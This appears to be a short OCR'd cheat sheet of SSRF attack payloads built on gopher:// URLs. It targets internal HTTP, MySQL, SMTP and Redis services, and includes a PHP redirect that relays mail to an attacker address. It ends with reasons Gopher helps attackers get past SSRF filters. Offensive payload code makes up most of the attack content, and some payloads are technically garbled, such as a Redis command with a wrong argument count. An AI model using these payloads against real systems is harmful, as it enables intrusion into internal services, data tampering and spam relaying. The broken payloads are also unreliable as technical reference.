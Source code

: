 
### **SSRF Payload Examples with Gopher**

#### Interacting with HTTP Services

Send HTTP requests via Gopher:

```gopher
gopher://127.0.0.1:8080/_GET / HTTP/1.1%0D%0AHost: example.com%0D%0A%0D%0A
```

- This sends a crafted HTTP GET request to `127.0.0.1:8080`.

#### Exploiting MySQL Databases

Authenticate with MySQL (assuming the username has no password):

```gopher
gopher://127.0.0.1:3306/_\x00\x00\x00\x03SELECT%20*%20FROM%20users;
```

- Sends a raw SQL query to the MySQL server.

#### Exploiting SMTP Servers

Send an email via SMTP:

```php
$commands = array(
    'HELO victim.com',
    'MAIL FROM: <admin@victim.com>',
    'RCPT TO: <attacker@malicious.com>',
    'DATA',
    'Subject: SSRF Exploit',
    'This is an email sent via SSRF and Gopher!',
    '.'
);
$payload = implode('%0A', $commands);
header('Location: gopher://127.0.0.1:25/_' . $payload);
```

- This script crafts SMTP commands to send an email.

#### Exploiting Redis Databases

Set a key in Redis:

```gopher
gopher://127.0.0.1:6379/_%2A1%0D%0ASET%20hacked%20value%0D%0A
```

- This sends a Redis `SET` command to insert a key-value pair.

---

### **Why Use Gopher in SSRF Attacks?**

1. **Protocol Agnosticism**: Gopher can communicate with any service that uses TCP.
2. **Flexibility**: The Gopher protocol allows precise control over the data sent, making it a powerful tool for exploitation.
3. **Bypass Protections**: Some SSRF filters block HTTP/HTTPS but fail to account for Gopher, enabling attackers to bypass these restrictions.

---